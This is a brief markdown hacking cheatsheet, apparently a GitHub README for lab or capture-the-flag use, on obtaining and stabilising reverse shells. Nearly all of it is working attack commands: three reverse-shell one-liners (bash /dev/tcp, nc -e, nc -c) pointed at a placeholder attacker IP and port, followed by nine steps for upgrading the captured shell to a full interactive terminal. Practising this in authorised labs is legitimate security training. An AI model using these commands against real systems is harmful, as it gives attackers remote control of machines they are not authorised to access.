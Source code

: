 # Cheatsheet Hacking 🐱‍💻


## Obtain a reverse shell 🚫

| Command |
|:-------|
| `bash -c "bash -i >%26 /dev/tcp/<tun0 IP>/<port> 0>%261"` |
| `nc -e /bin/bash <tun0> <port>` |
| `nc -c bash <tun0> <port>` |

## Fix errors to obtain a reverse shell

| Step|Command |
|:-------:|:----|
| 1 | `script /dev/null -c bash` |
| 2 | `Ctrl` + `Z` |
| 3 | `stty raw -echo; fg` |
| 4 | `reset` |
| 5 | `xterm` |
| 6 | `export TERM=xterm` |
| 7 | `export BASH=shell` |
| 8 | `stty size` |
| 9 | `stty rows <N> columns <N>` |

